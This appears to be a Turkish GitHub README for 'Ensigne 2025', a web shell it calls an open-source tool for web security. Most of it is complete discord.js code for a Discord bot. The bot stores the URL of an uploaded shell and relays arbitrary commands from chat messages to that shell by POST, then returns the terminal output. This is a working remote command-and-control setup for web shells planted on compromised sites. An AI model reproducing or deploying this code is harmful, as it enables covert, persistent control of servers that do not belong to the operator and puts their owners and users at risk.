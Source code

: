 Ensigne 2025 Web Güvenliği İçin Yazılmış Açık Kaynak Kodlu Bir Shelldir.

İletişim İçin Discord: ensigne

![image](https://github.com/user-attachments/assets/33c11505-acfc-492d-9cb3-3c48b5496d62)


Sistem ayrıca discord.js uyumludur. Bot oluşturup sohbete **.!backlink <url(yüklediğiniz shellin linki)> ** yaptıktan sonra **.!ensignedoor <komut>** ile discord üzerindende shelli kontrol edebilirsiniz.

**İŞTE DİSCORD JS KODLARI**

```
const { Client, Intents } = require('discord.js');
const fetch = require('node-fetch'); // Fetch modülünü kullanarak HTTP istekleri yapacağız.
const client = new Client({ intents: [Intents.FLAGS.GUILDS, Intents.FLAGS.GUILD_MESSAGES] });

const token = 'YOUR_BOT_TOKEN';  // Bot tokenınızı buraya yazın

// Kullanıcı başına özel backend URL'leri saklanacak
const userBackendUrls = {};

client.once('ready', () => {
    console.log('Bot hazır!');
});

client.on('messageCreate', async (message) => {
    if (message.author.bot) return; 

  
    if (message.content.startsWith('.!backlink')) {
        const url = message.content.replace('.!backlink ', '').trim();
        if (url) {
            userBackendUrls[message.author.id] = url;  
            message.reply(`Backend URL'si başarıyla ayarlandı: ${url}`);
        } else {
            message.reply('Lütfen geçerli bir URL girin.');
        }
    }

    
    if (message.content.startsWith('.!ensignedoor')) {
        const userId = message.author.id;
        const url = userBackendUrls[userId];

        if (!url) {
            return message.reply('Önce backend URL\'sini ayarlamanız gerekiyor. Lütfen .!backlink <URL> komutunu kullanın.');
        }

        const command = message.content.replace('.!ensignedoor ', '');  
        try {
            const response = await fetch(url, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: new URLSearchParams({
                    command: command
                })
            });

            const data = await response.text();  
            message.reply(`Terminal Çıktısı:\n${data}`);  

        } catch (error) {
            console.error('Komut gönderme hatası:', error);
            message.reply('Bir hata oluştu, lütfen tekrar deneyin.');
        }
    }
});

client.login(token);
```
